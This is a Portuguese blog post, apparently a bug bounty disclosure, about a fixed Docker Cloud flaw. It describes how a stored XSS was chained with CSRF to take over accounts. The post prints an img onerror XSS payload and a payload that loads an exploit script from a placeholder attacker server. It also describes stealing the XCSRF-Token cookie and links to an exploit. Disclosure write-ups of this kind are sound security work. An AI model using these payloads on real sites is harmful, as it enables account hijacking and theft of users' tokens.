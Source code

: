 ```yaml
---
layout: post
title:  "Bug Bounty 00 - Full Account Takeover Docker Cloud (My First CSRF)"
date:   2019-05-15 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei no Docker Cloud (<a href="https://cloud.docker.com/" target="_blank">Docker Cloud</a>). Esta falha já foi corrigida e tive permissão de falar sobre ela citando o vendor, então vamos la :)
</p>

<p align="justify">
Bom, a vulnerabilidade que está no título foi o resultado final de uma cadeia (chain) de outras vulnerabilidades que encontrei inicialmente no domínio do Docker Cloud.
</p>

<p align="justify">
Enquanto navegava pelos repositórios do Docker Cloud, percebi que o usuário podia inserir uma  breve e também uma completa descrição a respeito do projeto. Decidi inserir algumas tags na descrição completa só para teste mesmo (não esperava que realmente iria acontecer), comecei com o famoso <code>&lt;script&gt;alert(document.domain);&lt;/script&gt;</code> e para minha não surpresa, não ocorreu nada.
<br>
<br>
Decidi então inserir uma tag de imagem com um evento Javascript:
<br>
<code>&lt;img src="x" onerror="alert(document.domain)"/&gt;</code>
<br>
salvei e quando a descição foi atualizada, boooommm :)
<br>
<img src="/images/bug_bounty/bb00-00.png"/>
</p>

<p align="justify">
Neste ponto, já havia um XSS Stored (Armazenado), pois qualquer usuário que visitasse o meu repositório com o código iria se deparar com o alert(document.domain) sendo executado.
<br>
<br>
Foi então que tive uma ideia de escalar ainda mais a vulnerabilidade, então fui procurar mais sobre e me deparei com o CSRF (Cross Site Request Forgery), que é um tipo de ataque onde você força o usuário a relizar ações forjadas (o usuário acha que está realizando uma ação, mas na verdade está realizando outra). Descobri que para isso eu teria que carregar um script externo, e como a tag script não estava disponível, foi necessário utilizar os eventos JS das tags HTML :)
<br>
<br>
Usei o seguinte payload:
<br>
<code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/reset.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code> 
<br>
que tem como objetivo inserir um novo atributo do tipo javascript no head do HTML da página que será carregado a partir do arquivo <i>reset.js</i> que no caso é o arquivo js que contém o código do exploit.
</p>

<p align="justify">
Para realizar as requisições, era necessário ter o <b>XCSRF-Token</b> do usuário e também que ele estivesse no domínio cloud.docker.com (pode ser acessado pelo domínio hub.docker.com também :) ), pois apenas ele tinha permissão de realizar as requisições para a api.
<br>
<br>
Estas requisições, são as responsáveis pela inserção do email do atacante na conta do usuário e pela definição deste email como primário (quando o usuário reseta a senha o link é enviado para o email primário), portanto o usuário pode ter vários emails, mas o link só será enviado para o endereço de email primário.
</p>

<p align="justify">
Então, primeiramente para ter acesso ao XCSRF-Token do usuário, foi necessário apenas obtê-lo pelo document.cookie (não estava com a flag httpOnly habilitada).
<br>
<br>
E para realizar as requisições, primeramente, no exploit verificava se a URL atual que o usuário estava acessando o repositório era cloud.docker.com, caso fosse positivo ele apenas realizaria as requisições, caso contrário ele redirecionava o usuário para o domínio permitido para realizar as requisições (cloud.docker.com).
</p>

<p align="justify">
Tendo tudo isso em mãos, era necessário apenas realizar as requisições para adicionar o email do atacante na conta do usuário e setar como email primário :)
<br>
<br>
Vale lembrar que o email que o atacante utilizaria não deveria estar cadastrado em nenhuma outra conta :)
<br>
<br>
Tendo efetuado com sucesso o ataque, o atacante teria acesso permanente à conta do usuário, pois mesmo que fosse enviado um link para resetar a senha, seria enviado para o email primário da conta (no caso o do atacante).
</p>

<p align="justify">
Então resumindo, foi utilizado um XSS Stored encadeado com um CSRF para ter acesso permanente à conta de qualquer usuário que acessasse o repositório malicioso :).
</p>

<p align="justify">
Abaixo há a PoC da vulnerabilidade:
<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/wHWfAo76xMY" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</p>

<p align="justify">
Quero agradecer ao <a href="https://twitter.com/K33r0k" target="_blank"><b>k33r0k</b></a> por ter me ajudado a desenrolar a chain com as vulnerabilidades :)
</p>

<p align="justify">
Bom galera, espero que eu tenha passado de forma clara essa resolução da vulnerabilidade encontrada no docker, como já disse ela foi corrigida, já fui recompensado e também fui permitido de realizar o disclosure.
<br>
<br>
Irei trazer mais resoluções ao longo do tempo.
<br>
<br>
Antes que eu esqueça, o exploit pode ser encontrado no meu github: <a href="https://github.com/vitor-fernandes/exploits/blob/master/exploitDocker.js" target="_blank" style="color: blue"><b>Exploit Cloud Docker</b></a> 
</p>